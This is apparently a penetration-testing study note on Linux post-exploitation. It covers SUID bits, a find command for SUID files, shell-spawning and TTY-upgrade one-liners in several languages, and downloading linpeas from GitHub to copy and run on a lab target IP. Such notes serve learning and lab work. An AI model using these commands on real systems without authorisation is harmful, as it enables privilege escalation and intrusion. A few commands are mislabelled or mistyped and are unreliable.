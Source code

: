 # 4 Post Exploit

## SUID bits

![SUID](_suid.png)

| Permission | On Files                                                      | On Directories                                           |
|------------|---------------------------------------------------------------|----------------------------------------------------------|
| SUID Bit   | User executes the file with permissions of the file owner     | -                                                        |
| SGID Bit   | User executes the file with the permission of the group owner | File created in directory gets the same group owner      |
| Sticky Bit | No meaning                                                    | Users are prevented from deleting files from other users |

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following:```find / -perm -u=s -type f 2>/dev/null```

## Get a TTY Shell

If you get shell without TTY, here are some commands you can try to fix this.

Choose an option based on the what is installed on the system:

- Bash```echo os.system('/bin/bash')``` or```/bin/sh -i```
- Python:``` python -c 'import pty; pty.spawn("/bin/sh")'```
- Perl:```perl —e 'exec "/bin/sh";'``` or```perl: exec "/bin/sh";```
- Lua:```lua: os.execute('/bin/sh')```
- Ruby:```ruby: exec "/bin/sh"``` or from within Interactive Ruby Shell```exec "/bin/sh"```
- Vi from within vi```:!bash``` or ```:set shell=/bin/bash:shell```
- nmap interactive mode:```!sh```

## System analysis

### PEASS

<https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

#### Linpeas

Download linpeas and copy it target e.g. 10.10.112.131

``` sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh user@10.10.112.131:/dev/shm
chmod +x linpeas.sh
./linpeas.sh
```

#### Winpeas

TODO